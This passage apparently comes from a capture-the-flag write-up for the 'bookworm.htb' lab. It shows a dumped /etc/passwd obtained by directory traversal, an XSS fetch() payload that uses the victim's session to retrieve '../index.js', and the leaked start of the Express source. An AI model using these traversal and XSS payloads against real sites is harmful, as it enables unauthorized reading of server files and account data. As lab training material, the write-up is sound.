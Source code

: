 ```
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
frank:x:1001:1001:,,,:/home/frank:/bin/bash
neil:x:1002:1002:,,,:/home/neil:/bin/bash
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
james:x:1000:1000:,,,:/home/james:/bin/bash

```

In addition to a proof that the directory traversal works, I’ll also note the usernames frank, neil, and james.

#### Enumerate File System

I’ll try to pull the source code for this application. I know it’s Express, so the main function is likely in an `index.js`. It’s not in the current directory, but it returns the source with the XSS payload updated with:

```

fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=../index.js", {credentials: 'include'})

```

The main source is:

```

const express = require("express");
const nunjucks = require("nunjucks");
const path = require("path");
const session = require("cookie-session");
const fileUpload = require("express-fileupload");
const archiver = require("archiver");
const fs = require("fs");
const { flash } = require("express-flash-message");
const { sequelize, User, Book, BasketEntry, Order, OrderLine } = require("./database");
const { hashPassword, verifyPassword } = require("./utils");
const { QueryTypes } = require("sequelize");
const { randomBytes } = require("node:crypto");
const timeAgo = require("timeago.js");

const app = express();
const port = 3000;

const env = nunjucks.configure("templates", {
  autoescape: true,
  express: app,
});

```